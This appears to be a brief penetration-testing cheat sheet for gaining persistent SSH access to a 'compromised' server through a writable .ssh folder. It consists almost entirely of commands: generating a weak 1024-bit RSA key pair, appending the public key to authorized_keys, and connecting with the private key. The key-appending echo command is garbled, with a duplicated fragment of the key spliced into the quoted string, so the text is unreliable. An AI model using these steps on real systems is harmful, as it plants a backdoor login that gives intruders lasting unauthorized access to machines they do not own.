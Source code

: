 # Writable .ssh folder

## add your public keys and connect to host via ssh
### generate keys
```
ssh-keygen -t rsa -b 1024 -f testkeys
```

### add keys to compromised ssh server
#### copy
```
cat testkeys.pub | xclip -selection c
```

#### paste
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDAN9xF6yh8o58+XaXtig86wCBgAh304mw1WSl4xTMo6s8G7I4q2ghXpHh4VpggPbi7+Q2VfbQuBWQeb4sKHTOh6qvXjgpFdqVwbgHrstxVvVC7ZoRSex+qDRumb2TmhRhNb1IiVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali
<iVMdNaPvZL/vzPzNIrW/xdceg/uL1o3MCxDYk7w== kali@kali" >> authorized_keys
```

### connect to host
```
ssh -i testkeys user@host
```
